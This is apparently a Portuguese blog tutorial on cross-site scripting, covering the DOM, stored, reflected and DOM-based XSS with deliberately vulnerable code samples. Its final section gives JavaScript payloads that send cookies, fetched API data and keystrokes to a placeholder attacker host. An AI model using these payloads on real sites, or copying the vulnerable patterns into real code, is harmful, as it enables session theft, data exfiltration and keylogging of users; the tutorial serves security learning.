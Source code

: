 ```yaml
---
layout: post
title: "seu xss é inútil? como abusar de xss mesmo em questões ambíguas"
date: 2024-12-12
categories: hacking xss
---
```


## introdução

eu sou um jovem pesquisador de segurança, atualmente com 14 anos, e decidi escrever este artigo após minha experiência em diversos ctfs e programas de bug bounty. muitas vezes, o meu xss parecia totalmente inútil, mas com certos cuidados e técnicas, consegui evoluí-lo para algo mais impactante. este artigo é para compartilhar esse aprendizado e explorar o verdadeiro potencial de um xss.

## conceito de dom e como ocorre um xss

antes de entender como explorar um xss, é importante compreender o dom (document object model). o dom é a estrutura hierárquica que representa a interface de uma página web. ele permite que o javascript e outras linguagens manipulem elementos como texto, imagens, botões e mais. vulnerabilidades de xss geralmente exploram falhas na maneira como o dom é manipulado pelo navegador ou pela aplicação.

### o que é o dom

o dom é como uma "árvore" que representa os elementos html e suas relações. cada nó na árvore é um elemento ou texto do html. aqui está um exemplo básico:

```html
<!DOCTYPE html>
<html>
<head>
  <title>exemplo</title>
</head>
<body>
  <h1>título</h1>
  <p>parágrafo de exemplo.</p>
</body>
</html>
```

essa estrutura se traduz no dom da seguinte forma:

```
- html
  - head
    - title
  - body
    - h1
    - p
```

quando um atacante explora o xss, ele injeta códigos maliciosos em um desses nós para executar ações não autorizadas.

imagem explicando o conceito de dom:
![estrutura do dom](https://upload.wikimedia.org/wikipedia/commons/5/5a/DOM-model.svg)

### como um xss ocorre

xss ocorre quando entradas do usuário são inseridas no dom sem validação ou sanitização adequadas. isso pode acontecer em diferentes cenários, como:
- exibição de comentários ou mensagens enviadas por usuários.
- parâmetros de url refletidos diretamente na página.
- manipulação insegura de elementos com javascript.

exemplo de código vulnerável:

```html
<!DOCTYPE html>
<html>
<body>
  <p id="mensagem"></p>
  <script>
    var mensagem = location.hash.substring(1);
    document.getElementById('mensagem').innerHTML = mensagem;
  </script>
</body>
</html>
```

se alguém acessar `http://site.com/#<script>alert(1)</script>`, o javascript será executado e exibirá um alerta.

imagem ilustrando como um xss pode ser processado pelo dom:
![fluxo de xss no dom](https://owasp.org/www-project-top-ten/assets/images/DOM-XSS.png)

## tipos de xss e exemplos

### stored xss

no stored xss, o código malicioso é armazenado permanentemente no servidor e entregue a outros usuários. por exemplo, um atacante pode inserir um comentário com o seguinte código:

```html
<script>fetch('https://malicioso.com?c=' + document.cookie)</script>
```

essa mensagem será salva no banco de dados e exibida para qualquer usuário que acessar a página, enviando os cookies para o servidor do atacante.

imagem de um fluxo de stored xss:
![stored xss fluxo](https://owasp.org/www-pdf-archive/Stored_XSS.png)

### reflected xss

no reflected xss, o código malicioso é "refletido" diretamente de uma solicitação para o navegador. por exemplo:

```html
<!DOCTYPE html>
<html>
<body>
  <p>bem-vindo, </p>
  <script>
    var nome = location.search.substring(1).split('=')[1];
    document.write(nome);
  </script>
</body>
</html>
```

se o usuário acessar `http://site.com/?nome=<script>alert(1)</script>`, o script será executado.

imagem ilustrando um ataque reflected xss:
![reflected xss](https://cdn2.hubspot.net/hubfs/5856033/Reflected-XSS.png)

### dom-based xss

no dom-based xss, a vulnerabilidade está na manipulação do dom pelo javascript. por exemplo:

```html
<!DOCTYPE html>
<html>
<body>
  <input id="entrada" oninput="eval(this.value)" />
</body>
</html>
```

se o atacante inserir `alert(1)` no campo de entrada, o javascript será executado diretamente no cliente.

imagem mostrando como o dom é manipulado em um ataque:
![dom-based xss](https://resources.infosecinstitute.com/wp-content/uploads/2020/02/dom-xss-example.png)

## explorando xss de forma avançada

### exfiltração de dados sensíveis

```javascript
<script>
  fetch('/api/dados')
    .then(res => res.text())
    .then(data => {
      fetch('https://malicioso.com', {
        method: 'post',
        body: data
      });
    });
</script>
```

### execução de keyloggers

```javascript
<script>
  document.addEventListener('keydown', function(e) {
    fetch('https://malicioso.com/keylogger', {
      method: 'post',
      body: e.key
    });
  });
</script>
```

### manipulação avançada do dom

```javascript
<script>
  document.body.innerHTML = '<h1>site comprometido</h1>';
</script>
```



